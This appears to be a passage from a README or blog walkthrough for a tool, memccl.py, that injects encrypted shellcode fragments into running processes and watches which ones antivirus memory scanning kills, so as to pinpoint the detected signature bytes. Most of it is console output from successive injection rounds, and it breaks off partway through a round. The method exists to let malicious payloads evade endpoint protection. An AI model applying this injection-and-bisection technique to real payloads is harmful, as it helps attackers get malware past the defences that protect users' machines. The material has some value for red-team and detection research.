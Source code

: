 Here, everything was killed, so use `split.py` to split the file piece by piece and take the first segment for encryption, repeating the above steps:

```
python memccl.py out.part1.0-170.enc 9
Shellcode decryption successful, size: 170 bytes
=== Round 1 testing ===
Enter start position: 0
Enter end position: 170
Enter initial number of chunks: 2
Shellcode injection successful, injected address: 0x24f1eac0000, PID: 8944
Shellcode injection successful, injected address: 0x2a4d7cc0000, PID: 8464
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[√] Process 8944 is alive from 0 to 85
[×] Process 8464 is dead from 85 to 170
=== Round 2 testing ===
Enter start position: 0
Enter end position: 85
Enter initial number of chunks: 3
Shellcode injection successful, injected address: 0x1dabc4b0000, PID: 2744
Shellcode injection successful, injected address: 0x2448b780000, PID: 4648
Shellcode injection successful, injected address: 0x1de9ea00000, PID: 3340
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[×] Process 2744 is dead from 0 to 28
[√] Process 4648 is alive from 28 to 56
[√] Process 3340 is alive from 56 to 84
=== Round 3 testing ===
Enter start position: 28
Enter end position: 84
Enter initial number of chunks: 1
Shellcode injection successful, injected address: 0x26e78ca0000, PID: 2164
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[√] Process 2164 is alive from 28 to 84
=== Round 4 testing ===
Enter start position: 40
Enter end position: 80
Enter initial number of chunks: 1
Shellcode injection successful, injected address: 0x2102dd00000, PID: 5644
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[√] Process 5644 is alive from 40 to 80
=== Round 5 testing ===
Enter start position: 50
Enter end position: 80
Enter initial number of chunks: 1
Shellcode injection successful, injected address: 0x23f7d490000, PID: 3656
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[√] Process 3656 is alive from 50 to 80
=== Round 6 testing ===
Enter start position: 70
Enter end position: 80
Enter initial number of chunks: 1
Shellcode injection successful, injected address: 0x20261480000, PID: 4376
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[×] Process 4376 is dead from 70 to 80
=== Round 7 testing ===
Enter start position: 60
Enter end position: 70
Enter initial number of chunks: 1
```